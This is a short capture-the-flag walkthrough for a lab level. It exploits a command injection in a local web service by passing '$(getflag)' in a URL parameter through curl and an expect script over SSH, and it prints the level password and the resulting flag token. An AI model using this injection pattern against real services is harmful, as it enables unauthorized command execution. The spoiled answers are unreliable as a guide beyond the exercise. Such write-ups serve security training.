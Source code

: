 # Level 04
- In the shell of your choice run the script attached or follow the steps bellow using your VM IP address to get the flag, also root privileges and some dependencies may be needed to install before
	```sh
	$ chmod u+x script.sh
	$ ./script.sh
	$ cat script.sh
	#!/usr/bin/expect -f
	set ip 192.168.1.103
	spawn ssh -o "StrictHostKeyChecking no" level04@$ip -p 4242 "curl -s '$ip:4747/?x=\$\(getflag\)'"
	expect "sword:"
	send "qi0maab88jeaj46qoumi7maus\r"
	interact
	```
- List content of the home directory
	```sh
	$ ls -l
	```
- View the content of its only file `level04`
	```sh
	$ cat level04
	```
- Send the `curl` rerquest flag with the corresponding injection for `x` parameter to the VM on port `4747` to exploit the call of `echo` utility and to get the flag
	```sh
	$ curl -s '192.168.1.103:4747/?x=$(getflag)'
	```
- With the token provided `ne2searoevaevoem4ov4ar8ap` switch to the next user level
	```sh
	$ su level05
	Password: ne2searoevaevoem4ov4ar8ap
	```
